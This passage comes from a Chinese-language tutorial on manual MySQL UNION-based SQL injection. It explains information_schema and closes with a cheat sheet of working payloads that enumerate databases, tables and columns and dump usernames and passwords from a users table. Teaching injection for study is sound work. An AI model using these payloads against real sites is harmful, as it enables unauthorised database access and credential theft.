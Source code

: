 

![][12] 
 
既然都说到这里了，这里就顺便列举一下MySQL手工注入中，比较关键的 `information_schema` 里的信息: 
 
### 记录关于数据库的信息
 
information_schema 数据库下的 `schemata` 表中的 `schema_name` 记录的是各个 `数据库` 的名称: 
 


![][13] 
 
不仅这里记录了在 `tables` 数据库下的 `table_schema` 表也记录了各个数据库的名称: 
 


![][14] 
 
### 记录关于数据表的信息
 
information_schema 数据库下的 `tables` 表中的 `table_name` 记录的是各个 `数据表` 的名称: 
 


![][15] 
 
这里是华丽的分割线，吃惊，一眨眼说不拓展的有忍不住扯了这么多，下面不多说直接来查询users表下的列名

```
id=1' and 1=2 UNION SELECT 1,2,group_concat(column_name) from information_schema.columns where table_name='users' --+
```
 


![][16] 

## 查询字段值
 
由于在查询列名那里啰嗦的有点多，核心原理已经写在上面了,这里就简单的写出payload,:

```
id=1' and 1=2 UNION SELECT 1,2,group_concat(id,username,password) from users --+
```
 
知道了数据库、表名、各个字段名可以直接进行查询了，不需借助 `information_schanem` 数据库了。 
 


![][17] 

## 简短的整理
 
本来是打算前面步骤中规中矩的写的，但还是忍不住写多了。于是又开出一个标题进行简短的整理:

```sql
order by –+ 判断字段数目
union select –+ 联合查询收集信息
id=1′ and 1=2 UNION SELECT 1,2,database() –+ 查询当前数据库
id=1′ and 1=2 UNION SELECT 1,2,group_concat(schema_name) from information_schema.schemata –+查询所有数据库
id=1′ and 1=2 UNION SELECT 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() –+ 查询表名
id=1′ and 1=2 UNION SELECT 1,2,group_concat(column_name) from information_schema.columns where table_name=’users’ –+ 查询列名
id=1′ and 1=2 UNION SELECT 1,2,group_concat(id,username,password) from users –+ 查询字段值

```
 

[18]: http://www.sqlsec.com/2018/01/concat.html
[0]: https://img2.tuicool.com/mQFVNvU.jpg
[1]: https://img0.tuicool.com/eUJZva3.jpg
[2]: https://img0.tuicool.com/z2ERNzA.jpg
[3]: https://img2.tuicool.com/QbuQjeJ.jpg
[4]: https://img2.tuicool.com/NVNvMbm.jpg
[5]: https://img2.tuicool.com/u2Evqar.jpg
[6]: https://img0.tuicool.com/aeIbeai.jpg
[7]: https://img2.tuicool.com/26RzUbN.jpg
[8]: https://img0.tuicool.com/VzQ7ruj.jpg
[9]: https://img1.tuicool.com/bAjqeqn.jpg
[10]: https://img2.tuicool.com/eA7JFjR.gif
[11]: https://img2.tuicool.com/m2YBRza.jpg
[12]: https://img0.tuicool.com/iaEvy2i.jpg
[13]: https://img2.tuicool.com/eEV7Rnb.jpg
[14]: https://img2.tuicool.com/q2M7fyE.jpg
[15]: https://img1.tuicool.com/MRj6n2i.jpg
[16]: https://img2.tuicool.com/FjQFbmM.jpg
[17]: https://img1.tuicool.com/NjaqUnj.jpg